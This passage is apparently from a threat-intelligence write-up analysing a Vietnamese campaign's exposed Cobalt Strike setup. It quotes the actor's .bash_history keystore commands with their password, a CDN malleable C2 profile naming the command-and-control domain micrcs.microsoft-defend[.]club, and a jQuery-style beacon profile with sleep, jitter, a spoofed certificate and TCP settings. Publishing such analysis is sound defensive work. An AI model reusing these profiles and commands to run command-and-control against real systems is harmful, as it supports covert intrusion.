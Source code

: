 We can analyse the certificate and see it has been named `cloudflare_cert`. Additionally, we exposed how this certificate was generated from the `.bash_history` file:

```bash
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:UPNV7J6rqSbc3Ay

keytool -importkeystore -deststorepass UPNV7J6rqSbc3Ay -destkeypass UPNV7J6rqSbc3Ay -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass UPNV7J6rqSbc3Ay -alias cloudflare_cert
```

Additionally, we can view the file [CDN.profile](https://github.com/ctrlaltint3l/intelligence/blob/main/VietnameseCampaign/CobaltStrike/CDN.profile), to receive further context into the CDN configuration:

```
https-certificate {
set keystore "cfcert.store";
set password "UPNV7J6rqSbc3Ay";
}
[...REDACTED…]
http-stager {
set uri_x86 "/api/1";
set uri_x64 "/api/2";
client {
header "Host" "micrcs.microsoft-defend.club";}
server {
output{
print;
}
[...REDACTED…]
```

From the above, we can see the domain `micrcs.microsoft-defend[.]club` is used for C2 communications. OSINT reveals this is hosted on Cloudflare. 

With all the other sensitive threat actor data, a malleable beacon profile was also included [`/CS/server/jquery-c2.4.5.profile`](https://github.com/ctrlaltint3l/intelligence/blob/main/VietnameseCampaign/CobaltStrike/jquery-c2.4.5.profile.bak):


```
set sample_name "jQuery CS 4.5 Profile";


set sleeptime "45000";         # 45 Seconds

set jitter    "37";            # % jitter
set data_jitter "100";          

set useragent "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko";


https-certificate {
    

    set C   "US";
    set CN  "baidu.com";
    set O   "baidu";
    set OU  "baidu";
    set validity "365";
}


set tcp_port "42666";
set tcp_frame_header "\x80";

```